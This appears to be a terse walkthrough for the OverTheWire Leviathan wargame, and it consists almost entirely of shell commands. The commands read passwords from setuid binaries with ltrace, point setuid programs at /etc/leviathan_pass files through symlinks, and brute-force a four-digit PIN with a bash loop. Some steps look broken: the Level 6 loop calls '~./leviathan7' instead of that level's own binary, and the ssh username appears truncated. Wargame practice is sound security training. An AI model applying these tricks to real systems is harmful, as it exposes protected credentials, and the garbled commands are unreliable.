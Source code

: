 ```ssh leviathan_@leviathan.labs.overthewire.org -p 2223```  


## Leviathan Level 0 → Level 1
```cat .backup/bookmarks.html | grep password```  

## Leviathan Level 1 → Level 2
```ltrace ./check```  
strcmp("pas", "__")  
```./check```  
```cat /etc/leviathan_pass/leviathan2```  

## Leviathan Level 2 → Level 3  
```mkdir /tmp/tmp_folder/```  
```cd /tmp/tmp_folder/```  
```touch test\ file```  
```ln -s /etc/leviathan_pass/leviathan3 /tmp/tmp_folder/test```  
```~/printfile test\ file```  

## Leviathan Level 3 → Level 4  
```ltrace ./check```  
strcmp("snlprintf\n", "__")  
```cat /etc/leviathan_pass/leviathan4```  

## Leviathan Level 4 → Level 5  
```.trash/./bin```  

## Leviathan Level 5 → Level 6
```ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log```  
```./leviathan5```  

## Leviathan Level 6 → Level 7
```mkdir /tmp/new_tmp_folder/``` 
```cd /tmp/new_tmp_folder/``` 
```touch file```
```vi file```  
```#!/bin/bash 

for i in {0000..9999}
do 
~./leviathan7 $i
done
```  
```cat /etc/leviathan_pass/leviathan7``` 
